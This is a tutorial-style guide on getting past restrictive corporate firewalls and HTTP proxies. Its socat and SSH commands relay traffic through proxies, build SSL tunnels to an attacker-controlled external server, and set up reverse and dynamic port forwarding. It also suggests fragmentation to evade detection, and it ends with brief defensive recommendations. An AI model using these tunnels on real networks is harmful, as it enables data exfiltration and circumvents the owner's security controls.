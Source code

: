 # Defeating Network Security Infrastructure

## Introduction

This guide explores methods for bypassing network security, specifically focusing on techniques that can be used to exfiltrate data or establish unauthorized connections through a network firewall. While these techniques have educational merit in understanding security failures, they must never be used for malicious activities or in environments you don't control.

*Disclaimer: This document is intended for educational purposes only. Use these techniques only in isolated lab environments to prevent unintended consequences.*

## Assumptions

- **Attacker's Resources:**
  - An authorized entry point for physical media (e.g., USB, CD-ROM).
  - Access to a workstation with up-to-date patches.
  - Antivirus and personal firewall software may be present.
  - Potentially, attacker has a personal device.
  - No specific exploits are required.
  - Access to an external web server under the attacker's control.

- **Network Configuration:**
  - A restrictive firewall primarily permitting outbound traffic via HTTP(S).
  - HTTP(S) access may be unrestricted or require basic/NTLM authentication.
  - Inbound connections are not permitted.

## Tools Required

- **SOCAT**: A tool for networking, enabling the transfer of data between disparate data channels.
- **SSH Clients**: OpenSSH, PuTTY, or any standard SSH clients.
- **NTLM Authorization Proxy**: For handling NTLM authentication scenarios.
- **Backtrack**: A Linux-based penetration testing suite.

## Establishing an Escape Route

### Introduction to SOCAT

SOCAT enables data relay between channels like sockets and files. It facilitates scenarios such as forwarding traffic from a local port to an external address.

```bash
# Example: Redirect traffic from local port 6666 to www.company.com on port 80
socat TCP4-LISTEN:6666 TCP4:www.company.com:80
```

### Testing SOCAT Configuration

- **Netcat:**  
  ```bash
  nc 127.0.0.1 6666
  ```

- **Telnet:**  
  ```bash
  telnet 192.168.123.81 6666
  ```

- **SOCAT (Client Mode):**  
  ```bash
  socat STDIO TCP:127.0.0.1:6666
  ```

### Accessing SSL Services

SOCAT can be used to connect to SSL-enabled services:

```bash
socat TCP4-LISTEN:6666 OPENSSL:192.168.123.50:443
```

## Proxy Bypass Techniques

### Using an HTTP Proxy

SOCAT can forward a connection via an HTTP proxy:

```bash
socat TCP4-LISTEN:6666 TCP4:proxy.company.com:8080
```

### Routing SSL Through a Proxy

SSL connections can traverse an HTTP proxy using the CONNECT method:

```bash
socat TCP4-LISTEN:6666 PROXY:proxy.company.com:ssl.company.com:443
```

### Forwarding SSH via Proxy

SOCAT can relay SSH protocols over a proxy, often limited to TCP port 443 using CONNECT:

```bash
socat TCP4-LISTEN:6666 PROXY:proxy.company.com:ssh.myserver.com:22
```

## Creating Tunnels

### SSL Tunnels

Set up an end-to-end SSL tunnel:

- **On Attacker's Machine:**
  ```bash
  socat TCP4-LISTEN:6666 OPENSSL:my.server.com:443
  ```

- **On Server:**
  ```bash
  socat OPENSSL-LISTEN:443,cert=path_to_cert TCP4:127.0.0.1:22
  ```

### Tunneling TCP over SSL and Proxy

Chain SOCAT instances to traverse proxies and establish SSL tunnels:

```bash
socat OPENSSL-LISTEN:443,cert=path_to_cert TCP4:127.0.0.1:22
socat TCP4-LISTEN:4444 PROXY:proxy.company.com:my.server.com:443
```

### Handling NTLM Authentication

Includes using an NTLM Authorization Proxy Server to authenticate with a proxy if needed.

## Advanced SSH Options

- **Local Forwarding (-L):**  
  ```bash
  ssh username@127.0.0.1 -p 6666 -L 3333:127.0.0.1:2222
  ```

- **Reverse Forwarding (-R):**  
  ```bash
  ssh username@127.0.0.1 -p 6666 -R 3333:127.0.0.1:2222
  ```

- **Dynamic Forwarding (-D):**  
  ```bash
  ssh username@127.0.0.1 -p 6666 -D 1080
  ```

## Additional Techniques and Considerations

- Utilize non-standard ports.
- Apply X.509 client certificates for SSL encryption.
- Explore SOCAT options like `fork`, `su`, `proxyport`.
- Employ fragmentation techniques to evade detection.

## Recommendations for Network Defense

- Implement highly restrictive desktop policies.
- Disable unauthorized external media boot.
- Use BIOS passwords and baseline traffic analysis.
- Employ advanced forward proxy technologies.
- Protect against VPN and SSL tunneling attacks.

## Closing Remarks

Understanding security failures aids in fortifying network defenses, yet it's important to apply knowledge ethically and responsibly.

---

**Note:** For any uncertainties about network security impacts or ethical implications of using these methods, always consult a professional or your organization's legal department before proceeding.
